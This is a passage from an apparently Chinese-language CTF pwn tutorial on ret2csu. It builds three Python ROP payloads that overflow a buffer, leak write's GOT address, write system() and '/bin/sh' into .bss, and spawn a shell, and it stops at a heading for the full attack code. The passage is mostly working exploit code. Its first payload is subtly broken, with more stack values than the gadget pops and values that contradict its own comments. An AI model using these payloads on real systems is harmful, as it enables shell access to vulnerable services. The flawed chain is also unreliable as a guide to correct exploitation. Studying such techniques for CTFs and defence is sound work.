 ``` python
#r12=write.got
#r13=rdx=8
#r14=rsi=write.got
#r15=edi=1
payload1 = 'A' * 136
payload1 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(8) + p64(got_write) + p64(1)
payload1 += p64(csu_init_front)
payload1 += 'A' * 56
payload1 += p64(main)
```

这样我们就已经使用__libc_csu_init中的通用gadgets泄露出了write函数的内存地址了

接下来我们需要解决的，就是构造payload2，利用`read()`函数将`system()`的地址以及`/bin/sh`写入到`.bss`段中

``` python
#read(rdi=0, rsi=bss_addr, rdx=16)
#rbx=0
#rbp=1
#r12=read.got
#r13=rdx=16
#r14=rsi=bss_addr
#r15=edi=0
payload2 = 'A' * 136
payload2 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0)
payload2 += p64(csu_init_front)
payload2 += 'A' * 56
payload2 += p64(main)
```

那么最后，就是构造payload3，执行`system(rdi=bss_addr+8="/bin/sh")`

``` python
#system(rdi=bss_addr+8="/bin/sh")
#rbx=0
#rbp=1
#r12=bss_addr
#r13=rdx=0
#r14=rsi=0
#r15=edi=bss_addr+8
payload3 = 'A' * 136
payload3 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr+8)
payload3 += p64(csu_init_front)
payload3 += 'A' * 56
payload3 += p64(main)
```

OK，我们的所有payload在此就都已经构造完毕了。

# 攻击代码
